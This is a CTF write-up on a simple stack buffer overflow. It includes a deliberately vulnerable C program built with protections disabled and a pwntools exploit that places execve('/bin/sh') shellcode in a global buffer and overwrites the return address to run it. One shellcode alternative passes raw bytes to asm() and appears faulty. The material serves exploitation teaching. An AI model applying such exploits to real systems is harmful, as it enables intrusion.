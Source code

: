 ```yaml
---
title: Simple Buffer Overflow - 0x04
tags: [CTF, PWN, NTUSTISC]

---
```


# Simple Buffer Overflow - 0x04
###### tags: `CTF` `PWN`

## Original Code
```clike!
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>

char message[48];

int main()
{
    char name[16];
    printf("Give me your message: ");
    fflush(stdout);
    read(0, message, 0x30);
    fflush(stdout);
    read(0, name, 0x30);
    return 0;
}
```
* Actually, this is a variant of the [lecture 0x01](https://hackmd.io/@UHzVfhAITliOM3mFSo6mfA/HJm5x_Ocs)
* <font color="F0000">Note that</font>, the global variable has its own address, instead of local variable that push to stack that we don't know at first.
* The 1st `read` function has no overflow, but 2nd `read` function has.

* Note that, if you establish the code yourself, you must turn off the protection by the command below and use `checksec` to observe the protection
    ```bash!
    gcc -o bof3 bof3.c -zexecstack -no-pie -fno-stack-protector -z norelro
    ```
* <font color="FF0000">Note that</font>:
must use `mprotect` to change permission access just like [lecture 0x04](https://hackmd.io/@UHzVfhAITliOM3mFSo6mfA/HJhgXGKci), add these line in original code
    ```c!
    #include <sys/mman.h>
    mprotect(0x403000, 0x1000, PROT_READ|PROT_WRITE|PROT_EXEC);
    ```
    **Before `mprotect` - `vmmap`**
    ![](https://imgur.com/yQ8PeWN.png)
    **After `mprotect` - `vmmap`**
    ![](https://imgur.com/moSdC0R.png)

## Exploit
* The main idea of this problem is write down your shellcode in `message` global variable and use `BOF` of 2nd `read` function to overlap `%rip`
* First, observe the address of global variable - `message` → `4033c0`
![](https://imgur.com/dTVBnkK.png)
* So, we have to construct our shellcode in [lecture 0x02](https://hackmd.io/@UHzVfhAITliOM3mFSo6mfA/BJRfEWFcs)
    ```python!
    from pwn import *

    r = process('./bof3')
    raw_input()

    # First, we must set our infrastructure of the platform
    context.arch = 'amd64'  # x86-64 → amd64, x86-32 → i386

    # asm function transfer your shellcode to machine language
    shellcode = asm('''
    mov    rbx, 0x68732f6e69622f
    push   rbx
    mov    rdi, rsp
    xor    rsi, rsi
    xor    rdx, rdx
    mov    rax, 0x3b
    syscall
    ''')

    r.send(shellcode)   # Send to 1st read function

    payload = b'a' * 0x18 + p64(0x4033c0)

    r.send(payload) # Send to 2nd read function that has bof
    r.interactive()
    ```

    * Note that, the 3 methods below are equal
        
        ```python!
        shellcode = asm('''
        mov    rbx, 0x68732f6e69622f
        push   rbx
        mov    rdi, rsp
        xor    rsi, rsi
        xor    rdx, rdx
        mov    rax, 0x3b
        syscall
        ''')
        ```
        
        * Made by [Online x86 / x64 Assembler and Disassembler](https://defuse.ca/online-x86-assembler.htm#disassembly)
        ```python!
        shellcode = asm('\x48\xBB\x2F\x62\x69\x6E\x2F\x73\x68\x00\x53\x48\x89\xE7\x48\x31\xF6\x48\x31\xD2\x48\xC7\xC0\x3B\x00\x00\x00\x0F\x05')
        ```
            
        * Made by `pwntools` built-in function
        ```python!
        shellcode = asm(shellcraft.sh())
        ```
* Then we got shell!!!
    ![](https://imgur.com/fQ9X9e6.png)